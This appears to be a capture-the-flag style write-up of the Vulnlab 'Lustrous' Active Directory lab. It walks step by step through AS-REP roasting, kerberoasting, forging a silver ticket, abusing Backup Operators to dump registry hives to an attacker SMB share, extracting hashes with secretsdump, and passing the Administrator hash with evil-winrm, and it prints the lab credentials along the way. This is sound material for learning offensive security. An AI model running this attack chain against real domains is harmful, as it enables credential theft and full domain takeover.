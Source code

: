 # Lustrous
![](images/lustrous.png)


IPs: `10.10.186.5` `10.10.186.6`

# Recon
Nmap:
10.10.186.5 - LusDC.lustrous.vl
```
21/tcp   open  ftp           Microsoft ftpd
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-07 10:05:13Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: lustrous.vl0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: lustrous.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```


10.10.186.6 - LusMS.lustrous.vl
```
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```


FTP:
Anonymous auth is allowed and in the directory there are 4 potential users:
```
ben.cox
rachel.parker
tony.ward
wayne.taylor
```

# Foothold
Going to try asreproasting.
```
GetNPUsers.py -no-pass -usersfile ~/vulnlab/lustrous/users.txt lustrous.vl/

$krb5asrep$23$ben.cox@LUSTROUS.VL:7c8ba100fb64758aaae0b5e3ac5c30ac$b7919abb1a2c111bdac822955214a080aaef77f20e70295e061600b83c625c696292eae4c291357e1e536b2dce0fbb4da175d6a275c8955426b8db7ae74fab7e6fc2ca2184e37e7021e10c976428bbe816474da75a3d0f027c226fc1b225b3c9125a70e824ddf2c4312414a84977697999225cc793d8feb6c6af131d81245a0d31cf874795c30185e733852a4904e8099fe1f78edcdf2e33ade2cb10e5301daa81874d6deb2bdff57de56c88ef39503d289f410ae3ab9482d9dfc086b4f6157d5110ec9c46a272938006d36c4fca42dbc09c2378ae83c82266cca9bd2d2d3d71a84f3a56c1398210b2f6
```

This cracks to `Trinity1`

# LDAP Analysis
As we now have domain creds, and there isnt any more low hanging fruit I'm going to run a bloodhound scan:
```
./bloodhound.py -d lustrous.vl -u ben.cox -p Trinity1 -c all -ns 10.10.186.5 --zip -dc LusDC.lustrous.vl
```

There are 2 kerberoastable accounts, being:
```
svc_db
svc_web
```

The tony.ward user has generic write over the domain admins group, and is also a member of the backup operators.

# Lateral Movement
The `svc_web` account has a SPN for `http://lusdc.lustrous.vl`, going to this site returns a 401 due to invalid creds. If we are able to compromise this account via kerberoasting we should be able to auth to the web app using kerberos.
```
GetUserSPNs.py lustrous.vl/ben.cox:Trinity1 -request
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName     Name     MemberOf  PasswordLastSet             LastLogon                   Delegation 
-----------------------  -------  --------  --------------------------  --------------------------  ----------
http/lusdc.lustrous.vl   svc_web            2021-12-22 23:46:12.670282  2024-10-07 21:05:33.010187             


[-] CCache file is not found. Skipping...
... snip ...
```

This ticket also cracks to `iydgTvmujl6f`. Using this we can create a silver ticket for any user to auth to the web application. I'm going to use the `tony.ward` user as he might have special privs in the context of the web app too.

to do this we need the nthash of service account, the domain sid (from bloodhound) and the user-id (also in bloodhound)

```
$ pypykatz crypto nt iydgTvmujl6f
e67af8b3d78df5a02eb0d57b6cb60717
```

```
$ ticketer.py -nthash e67af8b3d78df5a02eb0d57b6cb60717 -domain-sid S-1-5-21-2355092754-1584501958-1513963426 -domain lustrous.vl -user-id 1114 -spn http/lusdc.lustrous.vl tony.ward
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in tony.ward.ccache
```

Then in firefox update `network.negotiate-auth.trusted-uris` to `https://lusdc.lustrous.vl`, export the ticket and start firefox.

You can also do it via curl:
```
KRB5CCNAME=$(pwd)/tony.ward.ccache curl -k --negotiate -u : https://lusdc.lustrous.vl
```

Going to the /Internal endpoint shows a password reminder note for tony.ward
```
U_cPVQqEI50i1X
```

Checking if its a valid domain credential:
```
nxc ldap lusdc -u tony.ward -p U_cPVQqEI50i1X
SMB         10.10.186.5     445    LUSDC            [*] Windows Server 2022 Build 20348 x64 (name:LUSDC) (domain:lustrous.vl) (signing:True) (SMBv1:False)
LDAP        10.10.186.5     389    LUSDC            [+] lustrous.vl\tony.ward:U_cPVQqEI50i1X (Pwn3d!)
```

# Domain Admin
As `tony.ward` is a member of the backup operators we can use `reg.py` to dump the SAM and SECURITY hives. To do this we have to start a smbserver
```
$ smbserver.py -smb2support share ~/vulnlab/lustrous/

$ reg.py lustrous.vl/tony.ward:U_cPVQqEI50i1X@lusdc backup -o \\\\10.8.0.110\\share
```

This was very unstable and I couldnt get it to work, so instead, I'm going to do it from a windows machine. What we can do is login via winrm as ben.cox and then  use runas to execute BackupOperators.cpp as tony.ward to exfiltrate the hives.

updating the machine name on line 31 in `BackupOperators.cpp` and its good to go.

```
.\runascs.exe tony.ward U_cPVQqEI50i1X -d lustrous.vl C:\Windows\Tasks\backup.exe
Dumping SAM hive to C:\windows\temp\sam.hive
Dumping SYSTEM hive to C:\windows\temp\system.hive
Dumping SECURITY hive to C:\windows\temp\security.hive
```

Then just grab the files with smbclient, make sure you are in the `C:\Windows\temp` folder when grabbing the files due to windows icacls on the temp folder.

Then dumping the machine hash
```
secretsdump.py LOCAL -sam ~/vulnlab/lustrous/sam.hive -system ~/vulnlab/lustrous/system.hive -security ~/vulnlab/lustrous/security.hive 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

... snip ...
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:7f5111dad29fb429fe1222126a156a63
```

Now we can grab the DA hash.
```
$ secretsdump.py -hashes :7f5111dad29fb429fe1222126a156a63 lustrous.vl/LUSDC\$@lusdc                                                    
... snip ...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b8d9c7bd6de2a14237e0eff1afda2476::: 
```

Finally login with evil-winrm
```
evil-winrm -u Administrator -H b8d9c7bd6de2a14237e0eff1afda2476 -i lusdc

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
lustrous\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
LusDC
```

Fin
# Beyond Root
Had a lot of fun, got stuck trying to dump the registries remotely with reg.py for some reason the server kept closing the connection. I also played around with changing BackupOperators.cpp to dump to a share, which worked.

There is also a cool trick to kerberoast a user from an asrep ticket, which would have been useful if the ben.cox ticket didnt crack, you would then also have to set up a windows box so you could dump the sam and system hives. This should still work as you can add a DNS entry to a random ip by default in AD.
